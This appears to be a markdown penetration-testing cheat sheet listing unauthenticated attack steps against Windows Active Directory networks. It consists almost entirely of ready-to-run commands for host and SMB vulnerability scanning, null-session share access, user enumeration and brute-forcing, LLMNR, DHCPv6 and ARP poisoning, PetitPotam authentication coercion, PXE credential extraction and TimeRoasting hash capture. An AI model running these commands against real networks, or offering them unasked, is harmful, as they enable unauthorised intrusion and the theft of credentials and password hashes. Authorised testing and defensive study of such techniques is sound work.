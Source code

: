 # With_No_Credentials
## Scan Network - Vulnerable Host
- nxc smb <ip_range>
- nmap -sP -p <ip>
- nmap -Pn -sV --top-ports 50 --open <ip>
- nmap -Pn --script smb-vuln* -p139,445 <ip>
- nmap -Pn -sC -sV -oA <output> <ip>
- nmap -Pn -sC -sV -p- -oA <output> <ip>
## Find DC IP
- nmcli dev show <interface>
- nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
- nmap -p 88 --open <ip_range
## Zone Transfer
  > dig NS example.com \
  > dig AXFR example.com @ns1.example.com
## Anonymous & Guest access on SMB shares
- nxc smb <ip_range> -u '' -p ''
- nxc smb <ip_range> -u 'a' -p ''
- enum4linux-ng.py -a -u '' -p '' <ip>
- smbclient -U '%' -L //<ip>
## Enumerate LDAP - Username
- nmap -n -sV --script 'ldap*' and not brute -p 389 <dc_ip>
- ldapsearch -x -H <dc_ip> -s base
## Enumerate Users - Username
- nxc smb <dc_ip> --users
- nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID
- net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'
## Bruteforce Users - Username
- kerbrute userenum -d <domain> <userlist>
- nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>
## Poisoning
### LLMNR / NBTNS / MDNS
  - responder -l <interface>
### ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - mitm6 -d <domain>
  - bettercap
### ⚠️ ARP Poisoning - Hash found ASREQ
  - asreqroast > [Pcredz](https://github.com/lgandx/PCredz) -i <interface> -v
## Coerce - Coerce SMB
- Unauthenticated PetitPotam (CVE-2022-26925) - petitpotam.py -d <domain> <listener> <target>
## PXE
###  No password - Credentials (NAA account)
  - pxethief.py 1
  - pxethief.py 2 <distribution_point_ip>
### Password Protected - PXE Hash
  - tftp -i <dp_ip> GET "\xxx\boot.var"
  - pxethief.py 5 '\xxx\boot.var'
## TimeRoasting - timeroast hash
- timeroast.py <dc_ip> -o <output_log>
